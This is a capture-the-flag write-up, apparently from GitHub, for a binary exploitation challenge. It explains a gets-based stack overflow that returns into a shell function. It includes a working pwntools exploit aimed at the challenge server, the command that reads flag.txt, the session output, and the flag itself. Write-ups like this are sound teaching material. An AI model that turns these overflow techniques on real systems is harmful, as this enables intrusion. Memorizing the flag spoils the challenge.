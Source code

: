 https://ctftime.org/event/2209/

# win... win... window...!

You are a skilled hacker known for your expertise in binary exploitation. One day, you receive an anonymous message challenging your abilities. The message contains a mysterious binary file. Now you decide to analyze the file.

Connection Information

`nc 173.255.201.51 3337`

## Solution

In `main/0x40118a` there is call to `gets` with a buffer on the stack. 0x12 bytes to return address with no stack canary. There is a function called `shell/0x401156` with no pie we can simply return to `shell` by overflowing the buffer on the stack in `main` with `gets`:

```
from pwn import *

SHELL = 0x00401157

#p = process("./win")
p = remote("173.255.201.51", 3337)

p.readline()

payload = b"A" * 0x12
payload += p64(SHELL)

p.sendline(payload)

p.sendline(b"/bin/cat flag.txt")

p.interactive()
```

```
$ python3 ./go.py 
[+] Opening connection to 173.255.201.51 on port 3337: Done
[*] Switching to interactive mode
KCTF{r3T_7o_W1n_iS_V3rRY_3AsY}$ 
[*] Closed connection to 173.255.201.51 port 3337
```

## Flag
`KCTF{r3T_7o_W1n_iS_V3rRY_3AsY}`

